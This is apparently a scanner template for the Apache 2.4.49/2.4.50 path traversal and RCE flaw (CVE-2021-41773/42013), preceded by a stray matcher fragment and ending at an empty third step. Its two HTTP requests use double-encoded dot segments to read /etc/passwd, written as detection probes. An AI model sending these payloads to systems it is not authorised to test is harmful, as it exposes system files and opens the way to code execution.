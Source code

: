 **Type - word**

- words
  1. "Consumers":

**Type - status**

- status
  1. 200

---

# Apache 2.4.49/2.4.50 - Path Traversal and Remote Code Execution

## Description

- A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49 and 2.4.50. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally, this flaw could leak the source of interpreted files like CGI scripts. In certain configurations, for instance if mod_cgi is enabled, this flaw can lead to remote code execution. This issue only affects Apache 2.4.49 and 2.4.50 and not earlier versions. Note - CVE-2021-42013 is due to an incomplete fix for the original vulnerability CVE-2021-41773.

- severity - critical
- tags - cve,cve2021,lfi,apache,rce,misconfig,traversal,kev

## Requests

### Step - 1

```
GET /icons/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}


```

### Step - 2

```
GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}


```

### Step - 3
